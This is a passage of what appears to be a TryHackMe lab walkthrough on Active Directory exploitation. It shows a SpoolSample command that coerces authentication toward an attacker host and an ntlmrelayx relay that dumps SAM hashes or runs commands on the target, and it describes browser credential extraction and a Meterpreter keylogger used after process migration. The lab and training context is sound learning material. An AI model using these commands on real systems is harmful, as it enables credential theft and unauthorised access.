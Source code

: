 Using SpoolSample to coerce authentication from a jump server (THMWRK1) on the network:

`SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"`

You should receive an authentication attempt and a relay to the target (THMSERVER1), by specifying no 
command the relay should dump the SAM hashes of the target.

To execute a command on response use the `-c` option

`python3 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -c 'whoami /all' -debug`

### Exploiting AD Users

Targeting AD users can also be seen as post-exploitation but is often an excellent thing to use when we are 
still performing exploitation to reach a suitable position for goal execution.

**Users and User Behaviour**

Users are often the weakest link in the security chain. Just think about weak passwords and bad habits, such 
as granting overly permissive permissions. It would be ignorant and ineffective to overlook this attack 
surface. While it is good to build up a proper enumeration and attack methodology against AD users, in this 
task, we will focus on two elements:

- Credential Management - How users store their credentials. In AD, this is quite important since users may 
have multiple sets of credentials and remembering all of them can be a hassle.

- Keylogging - Often, during exploitation, we need to understand how normal users interact with a system. 
Together with screengrabs, Keylogging can be a useful tool to gain this understanding from an attacker's 
perspective.

**Hunting for Credentials**

Search User directories for password databases, files that may contain passwords, run meterpreter modules to 
extract passwords from web browsers, anything you can think of.

SYSTEM is Sometimes Too Privileged

Meterpreter has a built-in keylogger. This will be useful for extracting the user's keystrokes. However, we 
can't just start this keylogger and hope for the best since our shell is currently running in the SYSTEM 
context. SYSTEM won't be typing any keystrokes, so this won't help us. To capture the correct user's 
credentials, we will need to ensure that our shell is running in the context of that user.

Fortunately, Meterpreter provides us with a migrate feature, and since we are running as SYSTEM, we should 
be able to migrate to any process. You have remote code execution on THMSERVER1, use this to get a 
Meterpreter shell. If you need a recap on using Meterpreter and Metasploit, here is a module on its use. 
However for a quick rundown, you can use the following command to generate a PowerShell meterpreter payload:
